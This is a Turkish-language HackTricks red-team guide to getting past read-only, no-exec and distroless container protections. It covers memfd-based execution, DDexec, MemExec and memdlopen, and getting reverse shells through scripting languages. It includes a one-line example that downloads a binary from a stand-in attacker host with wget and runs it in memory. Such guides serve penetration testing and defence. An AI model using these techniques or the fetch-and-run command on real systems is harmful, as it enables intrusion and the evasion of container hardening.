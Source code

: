 # FS Korumalarını Atlatma: Salt Okunur / İcra Edilemez / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı bir şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlilik ve Kaçınma için Linux Bellek Manipülasyonu**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizli Sızıntılar - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Salt okunur / icra edilemez senaryo

Özellikle konteynerlerde, linux makinelerinin **salt okunur (ro) dosya sistemi korumasıyla** karşılaşmak giderek daha yaygın hale gelmektedir. Bunun sebebi, salt okunur dosya sistemiyle bir konteyner çalıştırmak, `securitycontext` içinde **`readOnlyRootFilesystem: true`** olarak ayarlanması kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlansa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu yüzden diske bir şey yazamayacağımızı düşünmek yanıltıcı olur. Ancak, bu klasör **icra edilemez koruma** ile bağlanacaktır, bu nedenle buraya bir ikili indirirseniz, **onu icra edemezsiniz**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan (arka kapılar veya `kubectl` gibi sayıcılar gibi) ikili dosyaları indirip icra etmeyi **zorlaştırır**.
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları bahsettim, **yorumlayıcısı makinede bulunan herhangi bir betiği** (örneğin `sh` varsa bir **kabuk betiği** veya `python` yüklüyse bir **python betiği**) icra edebilirsiniz.

Ancak, bu, ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları icra etmek için yeterli değildir.

## Bellek Atlatmaları

Eğer bir ikili dosyayı icra etmek istiyorsanız, ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **bellekten icra etmektir**, çünkü **korumalar burada uygulanmaz**.

### FD + exec sistem çağrısı atlatması

Eğer makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorları varsa, ikili dosyayı bellekten icra etmek için indirebilir, onu bellekte bir bellek dosya tanımlayıcısına (`create_memfd` sistem çağrısı) kaydedebilirsiniz. Bu, korumalar tarafından korunmayacak ve ardından **`exec` sistem çağrısını** kullanarak **fd'yi icra edilecek dosya olarak** belirtebilirsiniz.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Ona bir ikili dosya geçirebilir ve **ikili dosyayı sıkıştırılmış ve b64 kodlanmış** bir şekilde içeren belirtilen dilde bir betik oluşturur. Bu betik, `create_memfd` sistem çağrısını çağırarak oluşturulan bir **fd** ile ikili dosyayı **çözümlemek ve sıkıştırmak** için talimatları içerir ve onu çalıştırmak için bir **exec** sistem çağrısı yapar.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bunların bir betikten **ham sistem çağrıları çağırmak için varsayılan bir yolu yoktur**, bu nedenle `create_memfd`'yi çağırmak için **bellek fd** oluşturmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **düzenli bir fd** oluşturmak çalışmayacaktır, çünkü **icra edilemez koruma** uygulanacaktır.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işleminizin **`/proc/self/mem`**'ini üzerine yazarak **bellekteki kendi işleminizin belleğini değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından icra edilen derleme kodunu kontrol ederek, bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu icra etmek için değiştirebilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu veya **bellekten herhangi bir ikili**'yi **yüklemenize ve icra etmenize** olanak sağlar.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Bu teknik hakkında daha fazla bilgi için Github'u kontrol edin veya:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. Bu, **DDexec kabuk kodunu daemonize eder**, bu nedenle farklı bir ikili dosyayı çalıştırmak istediğiniz her seferinde DDexec'i yeniden başlatmanıza gerek kalmaz, sadece DDexec tekniği aracılığıyla memexec kabuk kodunu çalıştırabilir ve ardından **bu daemonla iletişim kurarak yüklemek ve çalıştırmak için yeni ikili dosyaları geçirebilirsiniz**.

[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde **memexec'i PHP ters kabuktan ikili dosyaları çalıştırmak için nasıl kullanacağınıza dair bir örnek** bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları yürütmek için bellekte ikili dosyaları yüklemenin daha kolay bir yolunu sağlar. Bağımlılıkları olan ikili dosyaları bile yüklemek mümkün olabilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler, paket yöneticisi, kabuk veya sistem araçları gibi daha büyük bileşenleri hariç tutarak, yalnızca belirli bir uygulama veya hizmeti çalıştırmak için gereken **en temel bileşenleri** içerir.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin **saldırı yüzeyini azaltmak** ve sömürülebilecek güvenlik açıklarının sayısını en aza indirmektir.

### Ters Kabuk

Distroless konteynerde, düzenli bir kabuk elde etmek için **`sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca, genellikle bir sistemde çalıştırdığınız `ls`, `whoami`, `id` gibi ikili dosyaları da bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle sistemde yaptığınız gibi bir **ters kabuk alamazsınız** veya sistemde **numaralandırma** yapamazsınız.
{% endhint %}

Ancak, etkilenen konteyner örneğin bir flask web çalıştırıyorsa, python yüklüdür ve bu nedenle bir **Python ters kabuk** alabilirsiniz. Node çalıştırıyorsa, bir Node ters kabuk alabilirsiniz ve aynı şey hemen hemen her **betik dili** için geçerlidir.

{% hint style="success" %}
Betik dili kullanarak, dilin yeteneklerini kullanarak sistemde **numaralandırma yapabilirsiniz**.
{% endhint %}

**`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak **ikili dosyalarınızı dosya sistemine yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunur, ancak **önceki bellek yürütme tekniklerini atlatmak için** kullanabilirsiniz.
{% endhint %}

[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde, bazı RCE güvenlik açıklarını **sömürmek için örnekler** ve bellekten ikili dosyaları çalıştırmak için **ters kabuklar** nasıl alınacağına dair örnekler bulabilirsiniz.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **tanıtmak veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>
